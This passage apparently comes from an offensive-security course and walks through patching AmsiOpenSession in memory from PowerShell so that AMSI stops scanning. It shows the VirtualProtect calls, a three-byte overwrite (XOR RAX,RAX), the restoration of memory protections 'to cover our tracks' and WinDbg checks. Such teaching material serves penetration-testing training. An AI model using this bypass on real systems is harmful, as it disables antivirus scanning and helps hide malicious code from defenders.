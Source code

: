 > Listing 48 - Calling VirtualProtect to modify memory protections

As shown above, we combined _LookupFunc_ and _getDelegateType_ into one statement along with the argument types to create the _$vp_function_ variable from which we call the _Invoke_ method. The _$oldProtectionBuffer_ variable is used to store the old memory protection setting as required.

Before executing the code, we must resume PowerShell_ISE execution by entering the g in WinDbg. The code itself should simply return the value "True" if successful, but we can verify it in WinDbg by pausing execution through _Debug_ > _Break_ and then repeating the !vprot command:

```
0:001> !vprot 7FFFC3A224C0
BaseAddress:       00007fffc3a22000
AllocationBase:    00007fffc3a20000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
RegionSize:        0000000000001000
State:             00001000  MEM_COMMIT
Protect:           00000080  PAGE_EXECUTE_WRITECOPY
Type:              01000000  MEM_IMAGE
```

> Listing 49 - Displaying modified memory protections with WinDbg

However, the new memory protection is set to _PAGE_EXECUTE_WRITECOPY_ instead of PAGE_EXECUTE_READWRITE. In order to conserve memory, Windows shares AMSI.DLL between processes that use it. PAGE_EXECUTE_WRITECOPY is equivalent to PAGE_EXECUTE_READWRITE but it is a private copy used only in the current process.

Now that we have located _AmsiOpenSession_ and modified its memory protections, we can overwrite the required three bytes.

We can use the _Copy_[9](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5182-9) method from the _System.Runtime.InteropServices_ namespace to copy the assembly instruction (XOR RAX,RAX) represented as 0x48, 0x31, 0xC0 from a managed array (_$buf_) to unmanaged memory:

```
$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)
```

> Listing 50 - Overwriting the first assembly instruction

This should disable AMSI as soon as it is used, but we'll restore the original memory protection to cover our tracks. To restore the memory protections, we'll use _VirtualProtect_ again and specify the previous memory protection value 0x20 as shown in Listing 51:

```
$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)
```

> Listing 51 - Calling VirtualProtect to restore memory protections

Since we stored the function delegate in the _$vp_ variable, we do not have to resolve it twice. To verify the modifications, we'll again use WinDbg:

```
0:001> u 7FFFC3A224C0
amsi!AmsiOpenSession:
00007fff`c3a224c0 4831c0          xor     rax,rax
00007fff`c3a224c3 7446            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224c5 4885c9          test    rcx,rcx
00007fff`c3a224c8 7441            je      amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224ca 8139414d5349    cmp     dword ptr [rcx],49534D41h
00007fff`c3a224d0 7539            jne     amsi!AmsiOpenSession+0x4b (00007fff`c3a2250b)
00007fff`c3a224d2 4883790800      cmp     qword ptr [rcx+8],0

0:001> !vprot 7FFFC3A224C0
BaseAddress:       00007fffc3a22000
AllocationBase:    00007fffc3a20000
AllocationProtect: 00000080  PAGE_EXECUTE_WRITECOPY
```